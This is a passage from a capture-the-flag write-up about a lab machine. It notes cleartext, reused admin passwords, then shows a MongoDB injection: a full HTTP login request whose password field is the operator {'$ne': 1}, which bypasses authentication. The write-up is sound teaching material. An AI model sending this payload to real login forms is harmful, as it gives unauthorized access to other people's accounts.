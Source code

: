 Finally, I was able to get root because I found the admin's password in the database. Passwords should never be stored in clear. They should always be hashed before they are stored anywhere.

And more important, passwords should not be reused. The password used for connecting to the blog should not have given access to the user on the server.



## Mongo Injection

After I publihed this post, I started watching [IppSec's video of the box](https://www.youtube.com/watch?v=ahzOprfN--Y). At the beginning he mentioned that it's vulnerable to MongoDB injection. I completly missed that. So I launched back the box and tried to abuse it.

I used Burp Repeater to play with the login form post. If you change the `Content-Type` header, you can post json to it. From there, I could change the password value to `"$ne": 1` to get a valid login.

```http
POST /login HTTP/1.1
Host: target.htb:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 25
Origin: http://target.htb:5000
Connection: close
Referer: http://target.htb:5000/login
Upgrade-Insecure-Requests: 1

{
"user": "admin",
"password":{"$ne": 1}
}
```

And I was connected on the blog.
